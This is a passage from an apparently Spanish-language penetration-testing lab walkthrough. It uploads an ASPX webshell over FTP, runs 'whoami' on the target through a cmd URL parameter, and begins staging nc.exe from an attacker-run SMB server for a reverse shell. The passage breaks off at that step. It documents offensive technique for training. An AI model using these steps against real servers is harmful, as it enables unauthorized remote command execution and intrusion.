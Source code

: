 ```shell
put webshell.aspx
```

Info:

```
local: webshell.aspx remote: webshell.aspx
227 Entering Passive Mode (192,168,1,153,192,12).
125 Data connection already open; Transfer starting.
100% |****************************************************************************************************************|   733       10.27 MiB/s    --:-- ETA
226 Transfer complete.
733 bytes sent in 00:00 (17.38 KiB/s)
```

Con esto ya estaria subido nuestra `webshell` en la pagina, por lo que si ahora ponemos en la `URL` lo siguiente:

```
URL = http://<IP>/webshell.aspx
```

Entraremos al archivo que hemos creado anteriormente y subido, por lo que si hacemos esto siguiente veremos que se esta ejecutando comandos de forma remota la servidor.

```
URL = http://<IP>/webshell.aspx?cmd=whoami
```

Info:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### SMB Server

Ahora nos abriremos un servidor de `SMB` para generarnos una `reverse shell` con el servidor victima obteniendo directamente el archivo `nc.exe`.

Primero tendremos que copiarnos el ejecutable `nc.exe` a nuestro directorio actual.

```shell
cp /usr/share/windows-binaries/nc.exe .
```
